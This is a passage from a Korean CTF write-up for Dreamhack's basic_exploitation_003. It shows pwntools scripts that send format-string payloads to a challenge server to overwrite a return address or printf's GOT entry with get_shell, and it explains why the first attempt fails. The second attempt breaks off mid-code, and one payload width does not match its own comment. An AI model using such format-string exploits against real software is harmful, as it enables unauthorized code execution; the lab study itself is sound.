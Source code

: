 ```
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 12200)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']
# get_shell = 0x8048669
# 0x0804 = 2052
# 0x8669 = 34409

return_addr = 0xffffd01c

# 이렇게 해버리면 stack_buf에 공백 2045개 + 32357개가 쌓여버림
# 메모리에 저 string이 입력되게 해야함
# 2052 - 7 = 2045
# 34409 - 2052 = 32357
payload = b"%2045c%7$hn"    # 11bytes
payload += b"%3235c%8$hn"  # 12bytes
payload += b"a"             # 여기까지 24bytes
payload += p32(return_addr + 2)
payload += p32(return_addr)

p.send(payload)
p.interactive()
```

처음에 `sprintf`가 포맷스트링으로 출력된 문자열이 아니라 포맷스트링 자체를 저장하는줄 알고, `heap_buf`에 포맷스트링을 입력해서 `stack_buf`에 입력해준 후, `printf("ECHO : %s\n", stack_buf);`를 통해 FSB 공격을 하려고 헀다. (사실 위에서 설명했듯이 `printf`에서는 FSB 공격도 안먹히긴 한다.)

따라서, `return_address`가 저장된 `esp`의 위치를 구해서 `[esp + 0x__]`에 대입 후, 그 주소에 너비 지정자를 통해 `get_shell`만큼의 주소를 대입하려고 했다.

근데 이렇게 되버리면, `sprintf`의 특성 때문에 `stack_buf`에 `"%2045c"`라는 문자열이 입력되는게 아니라 `stack_buf`에 차례대로 `2045`개의 공백과 `32357`개의 공백이 입력되버려서 `stack_buf`에 포맷스트링 자체가 아닌 포맷스트링으로 출력된 문자열이 들어가게 되버린다.

그래서 `%%2045c`로 `stack_buf`에 `%2045c`를 입력해주더라도, 뒤에서 `printf("ECHO : %s\n", stack_buf);`를 통해 포맷스트링 공격이 불가능해서 RAO가 통하지 않으므로 논리 자체가 틀린다.

**`printf("ECHO : %s\n", stack_buf);` 여기서는 `stack_buf`가 `%s`로 바뀌는 과정에서 포맷 스트링으로 해석되는게 아니라 문자열 그 자체로 해석되서 여기서도 `2045`개의 공백이 아닌 `%2045c` 자체가 출력되기 때문이다.**

<img width="745" alt="image" src="https://github.com/user-attachments/assets/4e453001-22cd-4cd5-b197-86273f6d896c">

# 틀린 풀이 방법 2.

```
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 12415)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']
# get_shell = 0x8048669
# 0x0804 = 2052
# 0x8669 = 34409

printf_got = elf.got['printf']
# printf_got = 0x804a010

# 34409 - 2052 = 32357
```